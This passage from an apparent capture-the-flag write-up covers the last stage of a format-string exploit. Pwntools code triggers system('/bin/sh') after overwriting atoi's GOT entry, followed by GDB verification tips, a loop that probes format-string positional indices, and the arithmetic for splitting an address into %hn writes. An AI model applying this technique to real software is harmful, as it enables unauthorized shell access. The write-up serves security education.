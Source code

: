 
## Stage 6 — trigger `system("/bin/sh")`

```py
p.sendlineafter(b'A: ', b'/bin/sh')
p.sendlineafter(b'B: ', b'')
p.interactive()
```

* After the GOT overwrite, the next input that the vulnerable program sends to `atoi` will be executed via `system` instead.
* We send `/bin/sh` as the input to trigger a shell.

---

## Verification & debugging techniques (local)

* **Check your payload bytes**: print `payload_a` / `payload_b` and lengths before sending. Off-by-one in header length kills padding math.
* **Use GDB**: you already attach with `gdb.attach(p, gdbscript=f"break *{elf.symbols['atoi']}\ncontinue")`. When execution hits `atoi`, inspect the GOT:

  ```
  x/gx <atoi_got>     # examine 8 bytes at atoi_got in gdb
  ```

  Confirm the bytes equal the address of `system`.
* **Leaking back**: after the write, use a format string read to print `atoi_got` (same method you used for leaks) and compare to `system_addr`.
* **Watch for large pads**: if `first` or `second` is huge (> 50k), consider:

  * swapping order (write bigger half first), or
  * using byte-wise `%hhn` writes (eight writes, smaller pads), or
  * using `%<N>c` multiples (slow and sometimes truncated by remote).
* **Confirm positional indices**: `%11$hn` & `%12$hn` are assumptions. Use probing (`for i in range(1,50): send '%{i}$p'`) to find the actual indices remotely if things don’t line up.

---


## Appendix — precise meaning of the key formulas

* `low  = system_addr & 0xffff`
  lowest 16 bits we want to write to `atoi_got`.

* `high = (system_addr >> 16) & 0xffff`
  next 16 bits we want to write to `atoi_got+2`.

* `first  = (low - bytes_on_stack - 2) & 0xffff`
  number of extra characters to print so that printed-count reaches `low`.
  *`bytes_on_stack` should equal the number of characters printed by anything before `%c` (headers, etc.). The `-2` compensates for `"1."` if that is the header you used; if you use `'1234567.'` adjust accordingly.*

* `second = (high - low) & 0xffff`
  after the first write the printed counter equals `low`; we now need an additional `second` characters so the counter becomes `high` for the second write.

---
